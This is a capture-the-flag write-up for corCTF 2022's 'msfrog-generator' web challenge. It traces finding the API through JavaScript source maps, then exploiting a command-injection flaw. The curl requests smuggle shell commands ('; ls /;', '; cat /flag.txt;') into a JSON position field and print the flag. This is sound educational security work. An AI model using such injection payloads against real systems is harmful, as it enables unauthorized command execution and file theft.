 ```yaml
---
tags: writeup, corctf2022
---
```

# Writeup - web/msfrog-generator
## Challenge
Author: jazzpizazz
The vanilla msfrog is hard to beat, but this webapp allows you to make it even better!
## Solution
Opening up the site we see a canvas and some items to add to it and a button download it.
Looking at the source i see a javascript file     `/static/js/main.88f9e0db.js` and a comment:
```!
<!-- NOTE: There is no (intended) vuln in the frontend, please don't waste your time digging into the JS ;)  -->
```
Having read the comment I still decied to check out the js file which was heavily minified. At the end of the file I notice another comment:
```
//# sourceMappingURL=main.88f9e0db.js.map
```
A quick google search up later I find this info about the extension:
```!
From https://stackoverflow.com/questions/21719562/how-can-i-use-javascript-source-maps-map-files

The .map files are for JavaScript and CSS (and now TypeScript too)  files that have been minified.
What is it for?     To de-reference uglified code
Chrome: Open dev-tools, navigate to Sources tab. You will see the sources folder, where un-minified applications files are kept.
```
And sure enough opening dev tools->sources all the js files are visible. Looking through them trying to find something useful I find a file which includes an api call to generate the image `static->js->components->MsButton->MsButton.js`
```
let jsonData = [];
    placedItems.forEach((item) => {
      jsonData.push({ type: item.type, pos: item.pos });
    });

    try {
      let response = await fetch("/api/generate", {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(jsonData),
      });
      if (response.status !== 200)
        throw `Unexpected response: ${response.status}`;
      response = await response.json();
      if (!response.msfrog) throw "Empty response, the heck?";
      toast.success("Enjoy your MsFrog :D");
      triggerBase64Download(
        `data:image/png;base64,${response.msfrog}`,
        "msfrog"
      );
    } catch (e) {
      toast.error(`Sadge, something went wrong: ${e}`);
    }
```
I set breakpoints to view jsonData:
`[{"type":"mstongue.png","pos":{"x":0,"y":0}}]`
At this point I got a bit stuck, but later while fuzzing with the data I got this:
```!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"lol","pos":{"x":0,"y":0}}]' -H "Content-Type: application/json"

I wont pass a non existing image to a shell command lol
```
Trying to inject some commands in the "type" value didn't work, so then I tried the pos values:
```!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"mstongue.png","pos":{"x":0,"y":"; ls;"}}]' -H "Content-Type: application/json"

{"msfrog": "fe\nimg\nserver.py\nwsgi.py\n"}
```
```!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"mstongue.png","pos":{"x":0,"y":"; ls /;"}}]' -H "Content-Type: application/json"

{"msfrog": "app\nbin\nboot\ndev\netc\nflag.txt\nhome\nlib\nlib32\nlib64\nlibx32\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```
Then just cat the flag
```!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"mstongue.png","pos":{"x":0,"y":"; cat /flag.txt;"}}]' -H "Content-Type: application/json"

{"msfrog": "corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}\n"}
```
## Flag
corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}
## Thoughts
This was kind of an interesting chall, but I think it was too guessy